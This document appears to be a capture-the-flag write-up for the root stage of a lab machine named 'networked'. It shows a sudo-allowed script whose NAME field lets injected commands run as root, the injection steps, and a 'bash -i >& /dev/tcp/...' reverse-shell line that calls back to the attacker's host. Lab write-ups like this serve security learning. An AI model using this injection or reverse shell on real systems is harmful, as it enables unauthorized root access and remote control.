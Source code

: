 # 20 - Root

```
[guly@networked ~]$ sudo -l
sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
```


# changename.sh
```
[guly@networked ~]$ cat /usr/local/sbin/changename.sh 
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0
```

The script creates a file in network device configuration directory and adds key value pairs to it.

* NAME=x
* PROXY_METHOD=x
* BROWSER_ONLY=x
* BOOTPROTO=x


A quick google search on `network-scripts exploit `brought me to [this](https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f) page.

The author states that if you provide a blank space in the NAME everything comes after that gets executed.

# Code execution
```bash
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh                                          
interface NAME:                                                                                
test whoami                                                                                    
interface PROXY_METHOD:                                                                        
re                                                                                             
interface BROWSER_ONLY:                                                                        
d                                                                                                                                                                                             
interface BOOTPROTO:
a              
root                   
root
ERROR     : [/etc/sysconfig/network-scripts/ifup-eth] Device guly0 does not seem to be present, delaying initialization.
```


# Shell

![](vx_images/776738841541.png)


# Exploit
```bash
test touch shell        # create a shell file in the current working directory, ( we can't use any symbols because of the filter in the script')
test chmod 777 shell    # set rwx permissions
test bash shell         # execute the reverse shell
```

# Reverse Shell
```sql
[guly@networked ~]$ cat /etc/sysconfig/network-scripts/shell
bash -i >& /dev/tcp/10.10.14.18/9002 0>&1
```

# Root
![](vx_images/2056434463081.png)